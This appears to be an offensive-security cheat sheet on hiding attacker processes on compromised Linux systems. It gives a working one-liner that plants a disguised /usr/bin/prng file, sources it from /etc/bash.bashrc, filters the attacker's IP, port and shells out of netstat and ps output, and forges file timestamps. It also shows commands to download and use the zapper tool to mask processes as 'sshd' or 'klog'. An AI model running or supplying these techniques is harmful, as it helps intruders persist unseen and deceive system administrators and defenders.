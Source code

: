 # Living off the Land

## 01 - Hidden Process

> [!CAUTION] OPSEC Consideration
> This does not hide the command line arguments.

```
$ <commands> <(<commands>)

$ (exec -a syslogd <commands>)
```

Creating a shell function in the resource files (`~/.bashrc`, `~/.zshrc`) to make the process hidden.

```
$ echo -e 'netstat(){ command netstat "$@" | grep -Fv -e :<attacker_PORT> -e <attacker_IP>; } ps(){ command ps "$@" | exec -a GREP grep -Fv -e /bin/bash -e GREP; }' > /usr/bin/prng \ &&
echo ". prng #Initialize Pseudo Random Number Generator" >>/etc/bash.bashrc \ &&
touch -r /etc/ld.so.conf /usr/bin/prng /etc/bash.bashrc
```

## 02 - Hidden Commands

Download pre-compiled binary.

```
$ curl -fL -o zapper https://github.com/hackerschoice/zapper/releases/latest/download/zapper-linux-$(uname -m)

$ wget --no-hsts -qO zapper https://github.com/hackerschoice/zapper/releases/latest/download/zapper-linux-$(uname -m)

$ chmod 755 zapper
```

Execute commands but zap all options and show it as `klog` in the process list.

```
$ ./zapper -a klog <commands>
```

Started as a daemon and sshd-style name.

```
$ (./zapper -a 'sshd: root@pts/0' <commands> &)
```

## 03 - Multiplexer

### 3.1 - GNU Screen

Use the multiplexer to execute commands then attach the session name.

```
$ screen -dmS <session_name> <commands>

$ screen -x <session_name>
```

### 3.2 - Tmux

Use the multiplexer to execute commands then attach the session name.

```
$ tmux
```

## 04 - Terminating Process

Terminate process with an identifier.

```
$ kill -9 <pid>
```

Terminate process with a string.

```
$ pkill -9 <program>
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Discovery/Desktop/Linux/Host/0xH - Processes/List Processes/Manual/Living off the Land]]

### Source Repositories

- [hackerschoice: THC's favourite Tips, Tricks & Hacks (Cheat Sheet)](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)

- [hackerschoice: zapper](https://github.com/hackerschoice/zapper)